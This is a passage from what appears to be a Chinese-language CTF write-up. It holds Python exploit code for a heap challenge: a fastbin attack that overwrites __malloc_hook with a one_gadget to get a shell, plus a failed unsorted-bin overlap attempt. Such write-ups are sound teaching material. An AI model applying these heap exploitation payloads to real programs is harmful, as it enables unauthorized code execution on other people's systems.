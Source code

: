 然后把`__malloc_hook`写成`one_gadget`，`0x4526a`这个刚好满足条件，然后再随便malloc一下就可以getshell

```python
#fastbin attack---------------------------
create_video("for subtitle content",0x20) #16
create_video("fastbin bin to be attacked", 0x60) #17
create_video("for subtitle struct", 0x18) #18
create_video("for subtitle content",0x20, p64(0x140) + p64(0x30)) #19 fake next chunk
create_video("for video struct", 0x50) #20
remove(idx + 16)
remove(idx + 17)
remove(idx + 18)
remove(idx + 19)
remove(idx + 20)

create_subtitle(0x21, "A" * 0x21) #21

payload = "S" * 7
payload += "A" * 0x60
payload += p64(0x71)
payload += p64(libc_addr + e.symbols["__malloc_hook"] - 3 - 0x10)

recreate_subtitle(0xffffffff, payload)

create_video("A", 0x60)
create_video("A" * 3 + p64(libc_addr + 0x4526a), 0x60)

sh.send("1\n")
recv_input()
sh.send("1\n")

sh.interactive()
```

# 0x06 unsorted bin overlap代码

这个是失败版本的，虽然没用但是也可以学习参考下。。。

```python
# overlap unsorted bin attack----------------------------
create_video("for subtitle content",0x20) #16
create_video("unsorted bin construct", 0x80) #17
create_video("for subtitle struct", 0x18) #18
create_video("for subtitle content",0x20, p64(0x140) + p64(0x30)) #19 fake next chunk
create_video("for video struct", 0x50) #20

remove(idx + 16)
remove(idx + 17)
remove(idx + 18)
remove(idx + 19)
remove(idx + 20)

create_subtitle(0x21, "A" * 0x21) #21


payload = "S" * 7
payload += "A" * 0x60
payload += p64(0x141)

recreate_subtitle(0xffffffff, payload)
#0x60 is struct of one of the video
#this extent size of unsorted bin chunk


```